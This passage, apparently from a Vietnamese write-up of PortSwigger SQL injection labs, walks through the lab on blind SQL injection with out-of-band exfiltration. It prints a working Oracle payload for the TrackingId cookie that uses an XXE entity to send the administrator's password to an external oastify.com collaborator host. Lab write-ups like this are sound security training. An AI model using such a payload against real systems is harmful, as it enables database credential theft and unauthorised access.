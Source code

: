 Sau đó, có thể quan sát thấy kết quả bên tab Collaborator:

![lab-16-1](images/lab-16/lab-16-1.png)

### Lab 17: [Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.
>
> The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.
>
> To solve the lab, log in as the `administrator` user.

Bài lab yêu cầu chúng ta đăng nhập vào ứng dụng với user là `administrator`.

Trước tiên, chúng ta cần lấy được password, em đổi giá trị của cookie `TrackingId` thành payload `' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.mlb6ctchdthwxdxq1bfjzuwlvc16pwdl.oastify.com/"> %remote;]>'),'/l') FROM dual--`, encode URL rồi gửi request:

![lab-17](images/lab-17/lab-17.png)
